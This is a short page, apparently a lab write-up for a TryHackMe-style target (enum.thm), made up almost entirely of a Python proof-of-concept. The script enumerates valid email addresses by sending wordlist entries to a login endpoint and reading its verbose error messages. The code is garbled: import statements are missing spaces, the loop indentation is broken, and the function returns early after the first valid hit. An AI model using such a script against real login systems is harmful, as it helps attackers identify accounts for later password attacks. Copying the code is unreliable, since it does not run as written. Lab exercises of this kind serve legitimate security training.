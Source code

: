 ```yaml
---
title: Enumerating Emails
description:  A python script to enumerate emails
---
```


## POC

```python
importrequests
importsys

def check_email(email):
    url = 'http://enum.thm/labs/verbose_login/functions.php' # Location of the login function 
    headers = {
        'Host':'enum.thm',
        'User-Agent':'Mozilla/5.0 (X11; Linuxaarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept':'application/json, text/javascript, */*; q=0.01',
        'Accept-Language':'en-US,en;q=0.5',
        'Accept-Encoding':'gzip, deflate',
        'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With':'XMLHttpRequest',
        'Origin':'http://enum.thm',
        'Connection':'close',
        'Referer':'http://enum.thm/labs/verbose_login/',
    }
    data = {
        'username':email,
        'password':'password', # Use a random password as we are only checking the email
        'function':'login'
    }
    response = requests.post(url,headers=headers,data=data)
    return response.json()
    
def enumerate_emails(email_file):
    valid_emails = []
    invalid_error = "Email does not exist" # Error message for invalid emails
    with open(email_file,'r') as file:
        emails = file.readlines()
        for email in emails:
        email = email.strip() # Remove any leading/trailing whitespace
        if email:
            response_json = check_email(email)
            if response_json['status'] == 'error' and invalid_error in response_json['message']:
                print(f"[INVALID] {email}")
            else:
                print(f"[VALID] {email}")
                valid_emails.append(email)
                return valid_emails
if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 script.py <email_list_file>")
        sys.exit(1)
    email_file = sys.argv[1]
    valid_emails = enumerate_emails(email_file)
    print("\nValid emails found:")
    for valid_email in valid_emails:
        print(valid_email)
```